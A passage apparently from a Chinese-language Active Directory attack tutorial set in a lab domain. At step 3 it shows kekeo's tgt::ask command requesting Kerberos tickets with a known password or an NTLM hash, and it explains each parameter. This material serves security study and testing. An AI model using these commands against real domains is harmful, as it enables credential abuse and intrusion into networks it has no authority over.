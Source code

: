 [![](assets/1705982146-6c0cef5712b8200aca63cf4591a1a9c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223046-804642ae-b7a0-1.png)  
Step 3：之后我们可以在 Win 7 主机上使用 kekeo 执行如下命令来请求 ST 服务票据

```bash
tgt::ask /user:al2ex /domain:hacke.testlab /password:"1234Rewq!@#$"

#参数说明
/user:当前用户名
/domain:所在域名
/password:当前用户名的密码
/ticket:生成票据名称，这个参数也可以直接跳过

PS:如果已知的是服务账号的 NTLM Hash，则如下
tgt::ask /user:al2ex /domain:hacke.testlab /NTLM:"NTLM-Hash"
```
